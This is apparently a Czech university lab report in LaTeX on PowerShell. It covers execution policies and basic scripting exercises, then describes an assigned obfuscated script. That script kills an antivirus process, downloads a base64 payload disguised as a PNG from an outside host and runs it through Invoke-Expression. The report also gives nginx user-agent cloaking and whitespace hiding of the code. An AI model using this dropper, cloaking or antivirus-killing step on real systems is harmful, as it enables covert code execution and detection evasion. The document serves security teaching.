\documentclass[12pt,a4paper]{article}
\usepackage[czech]{babel}
\usepackage[utf8]{inputenc} 
\usepackage{listings}
\lstset{language=C}
\usepackage{minted}
\usepackage[hidelinks]{hyperref}
\usepackage{graphicx}
\usepackage{caption}
\usepackage[all]{hypcap}
\usepackage{pdfpages}

\newcommand{\Csh}{C\#}

\renewcommand\listingscaption{Výpis}


\begin{document}

\includepdf[pages=1]{zadani.pdf}

2) 
Politika spouštění skriptů chrání uživatele před nechtěným vykonáním skriptu. Politiku spouštění lze nastavit pro proces, aktuálního uživatele nebo všechny uživatele systému.

\begin{description}

\item[Restricted] je výchozí politika a neumožňuje spouštět skripty.

\item[AllSigned] politika vyžaduje, aby všechny skripty byly podepsané důvěryhodným podpisem.
Pro podepsaní skriptu je nejprve nutné vytvořit pomocí příkazu \texttt{New-SelfSignedCertificate} certifikát s privátním klíčem a následně tento certifikát importovat do „Trusted Root Certification Authorities“ a „Trusted Publishers“. Skript lze podepsat pomocí příkazu  \texttt{Set-authenticodeSignature}. Tento příkaz vloží podpis na konec skriptu do komentáře.

\item[RemoteSigned] oproti \textbf{AllSigned} umožňuje spouštět lokální skripty bez podpisu. Stáhnuté skripty musí být podepsané, nebo se musí skript povolit pomocí příkazu \texttt{Unblock-File}.

\item[Unrestricted] politika dovoluje spouštět lokální skripty. U skriptů stažených z internetu je uživatel varován.

\end{description}

3) Seznamte se s prací s proměnnými a metodami
\begin{enumerate}
	\item Vytvořte proměnnou a přiřaďte jí číselnou hodnotu \\
	\mintinline{powershell}{$num = 100}
	
	\item Vytvořte metodu, která bude přebírat dva parametry. Metoda bude vracet číselnou hodnotu, která vznikne manipulací dvou vstupních parametrů. Navrácenou hodnotu vypište do konzole.
	
	\begin{minted}{powershell}
function addition {
	$args[0] + $args[1]
};

addition 4 4

function additionN {
	param([int] $a, [int] $b)
	2*$a + $b
}

additionN -b 4 -a 5
write-output "Output: $(additionN 10 5)"
	\end{minted}
	
	\item Vytvořte metodu, která bude přijímat vícerozměrné pole. Toto pole bude obsahovat řetězce. V rámci metody proveďte operace s řetězci a výslednou hodnotu vypište do konzole a uložte do souboru.
	
	\begin{minted}{powershell}
function zip {
	param([string[][]] $list)
	
	$max = $list[0].Length;
	foreach($sublist in $list) {
		if($sublist.Length > $max) {
			$max = $sublist.Length
		}
	}
	
	$res = @()
	for($i = 0; $i -lt $max; $i++) {
		$item = "";
		foreach($sublist in $list) {
			$item += $sublist[$i]
		}
		
		$res += $item
	}
	$res
}


zip $(
	$("a", "b", "c", "d"),
	$(1, 2, 3, 4),
	$("A", "B", "C", "D"),
	$("X")
) | Tee-Object outfile
		\end{minted}
		
	\item Zjistěte informace o běžících procesech a vyzkoušejte různé metody pro práci s procesy.
	\begin{minted}{powershell}
ps

# běžící "non-windows" procesy
(ps).Path | 
Select-String "^C:\\(Windows|Program Files\\WindowsApps)" -NotMatch |
Select-String "."

# procesy vybraného uživatele
ps -IncludeUserName | Where-object UserName -eq "WINDEV1811EVAL\User"
# spuštění a počkání do ukončení procesu
Wait-Process $(Start-Process mspaint -PassThru).Id

# informace o vytvořeném procesu + ukončení
$app = ps -Name mspaint -ErrorAction SilentlyContinue
if(!$app) {
	$app = Start-Process mspaint -PassThru
	Write-Output "ahoj"
}
Write-Output "Name: $($app.Name)"
Write-Output $app.Path
Write-Output $app.Description
$app.Kill()

# stopnutí procesu dle názvu
Stop-Process -Name AudioPlayer
	\end{minted}
	
	\item Zkontrolujte, zda existuje vámi zadaná složka/cesta. Pokud neexistuje, tak ji vytvořte.
\begin{minted}{powershell}
$dir="tmp"
if(!$(Test-Path "$dir")) {
	mkdir "$dir" > $null
}

# alternativně
New-Item -ItemType Directory -Path "$dir" -Force
\end{minted}

%TODO: ulozit do souboru v ramci metody
\end{enumerate}

\section*{Úkol}
Dva skripty \texttt{gen/1.ps1} a \texttt{gen/2.ps1} jsou generované skriptem \texttt{generate.ps1}.
Oba skripty používají pro obfuskaci funkci \texttt{u}, která očekává jako argument pole řetězců.
Na každý prvek pole je aplikována Caesarova šifra s posunutím dle indexu prvku.
Dešifrované bloky jsou následně spojeny do řetězce a navráceny.

Skript \texttt{gen/2.ps} dle zadání zastaví proces s názvem \texttt{SimpleAntivirus} a ukončí se v případě, že existuje definovaná cesta.
Následně se pomocí dešifrovací funkce \texttt{u} získá kód, pro stažení powershell skriptu zakodovaného v base64:
\begin{minted}{powershell}
Invoke-Expression $([System.Text.Encoding]::UTF8.GetString(
  [System.Convert]::FromBase64String(
    (Invoke-WebRequest "https://trnila.eu/pvbs/icon.png" -UseBasicParsing)
      .Content)
  )
)
\end{minted}

Webový server vrací powershell skript pouze pro požadavek, který v hlavičce \texttt{User-Agent} obsahuje podřetězec \texttt{PowerShell}.
V opačném případě server vrací reálný obrázek.
Potřebná konfigurace nginx:
\begin{minted}{powershell}
location /pvbs/ {
  set $suffix '.fake';
  if ($http_user_agent ~* "PowerShell") {
    set $suffix '';
  }

  types {} default_type "text/plain";
  try_files $uri$suffix =404;
}
\end{minted}





Stažený skript se vykoná pomocí dynamicky sestaveného názvu příkazu \texttt{Invoke-Expression}:
\begin{minted}{powershell}
$c = $(u $('Jowplf.Fyqsfttjpo')).Trim();
&$c $(u $d);
\end{minted}
Tento způsob může ztížit statickou analýzu skriptu, protože se zde nevyskytuje název potencionálně nebezpečného příkazu \texttt{Invoke-Expression}.


Alternativa skriptu \texttt{gen/1.ps1} obfuskuje i zastavení antiviru a kontrolu cesty.
Skript také obsahuje jediný řádek s neškodným příkazem \texttt{Write-Output 'Hello World'}.
Škodlivý kód je následně mezerami odsazen a očekává se, že si jej nemusí člověk na první pohled všimnout, jak lze vidět na obrázku~\ref{fig:notepad}. 
Tato metoda se například využívala v \texttt{.htaccess} souborech, které přesměrovávaly návštěvníka na zákeřnou stránku, pokud přišel z vyhledávače Google.

\begin{figure}[ht]
	
\includegraphics[width=\linewidth]{notepad}
	\caption{Zbytek škodlivého kódu je odsazen mezerami}
	\label{fig:notepad}
\end{figure}


\end{document}